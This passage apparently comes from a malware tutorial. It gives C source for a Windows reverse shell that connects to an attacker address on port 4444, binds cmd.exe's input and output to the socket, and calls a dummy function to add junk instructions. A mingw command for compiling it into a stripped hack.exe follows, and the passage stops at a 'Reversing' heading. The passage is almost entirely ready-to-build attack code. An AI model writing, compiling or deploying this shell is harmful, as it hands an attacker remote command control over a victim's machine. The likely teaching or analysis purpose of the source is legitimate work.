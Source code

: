 ```c 
  char *attackerIP = "10.10.1.5";
  short attackerPort = 4444;

  // initialize socket library
  WSAStartup(MAKEWORD(2, 2), &socketData);

  // create socket object
  mainSocket = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int)NULL, (unsigned int)NULL);

  connectionAddress.sin_family = AF_INET;
  connectionAddress.sin_port = htons(attackerPort);
  connectionAddress.sin_addr.s_addr = inet_addr(attackerIP);

  // establish connection to the remote host
  WSAConnect(mainSocket, (SOCKADDR*)&connectionAddress, sizeof(connectionAddress), NULL, NULL, NULL, NULL);

  memset(&startupInfo, 0, sizeof(startupInfo));
  startupInfo.cb = sizeof(startupInfo);
  startupInfo.dwFlags = STARTF_USESTDHANDLES;
  startupInfo.hStdInput = startupInfo.hStdOutput = startupInfo.hStdError = (HANDLE) mainSocket;

  // initiate cmd.exe with redirected streams
  CreateProcess(NULL, "cmd.exe", NULL, NULL, TRUE, 0, NULL, NULL, &startupInfo, &processInfo);

  // call the dummy function to insert junk instructions
  dummyFunction();

  exit(0);
}
```

#### compile 

```bash 
 x86_64-w64-mingw32-g++ hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive -lws2_32
```

#### Reversing
